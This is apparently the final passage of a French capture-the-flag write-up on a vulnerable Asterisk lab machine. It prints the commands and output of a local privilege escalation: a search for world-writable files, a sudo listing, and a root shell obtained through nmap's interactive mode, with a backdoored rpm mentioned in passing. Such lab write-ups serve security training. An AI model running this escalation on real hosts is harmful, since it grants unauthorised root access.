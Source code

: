 On trouve un fichier appartenant à root et word-writable qui semble d'aucune utilité :  

```plain
bash-3.2$ find / -user root -perm -o+w -type f 2> /dev/null  | grep -v /proc
/var/spool/asterisk/voicemail/default/2000/INBOX/msg0001.txt
bash-3.2$ cat /var/spool/asterisk/voicemail/default/2000/INBOX/msg0001.txt
;
; Message Information file
;
[message]
origmailbox=2000
context=macro-vm
macrocontext=from-internal
exten=s-CHANUNAVAIL
priority=2
callerchan=Local/2000@from-internal-ba5d;2
callerid=VMAIL/2000
origdate=Mon Sep 29 08:22:29 PM UTC 2014
origtime=1412022149
category=
flag=
duration=1
```

Par contre les permissions *sudo* sont visiblement à approfondir :  

```plain
bash-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY"

Runas and Command-specific defaults for asterisk:

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /usr/bin/nmap
```

Je ne connais pas bien *yum* et je ne sais pas avec quelle facilité il est possible de lui faire exécuter des commandes...  

On peut sinon utiliser *yum* pour installer un logiciel vulnérable et ensuite exploiter ce dernier ou créer un paquet *rpm* contenant une backdoor (un peu prise de tête).  

Du coup, après un coup d’œil dans la page de manuel de *nmap*, je l'appelle en mode interactif et invoque */bin/bash* :  

```plain
bash-3.2$ sudo /usr/bin/nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !/bin/bash
bash-3.2# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
bash-3.2# cd /root
bash-3.2# ls
anaconda-ks.cfg  trophy.txt
bash-3.2# cat trophy.txt 
cc614640424f5bd60ce5d5264899c3be
```

Finish

*Published October 01 2014 at 18 57*
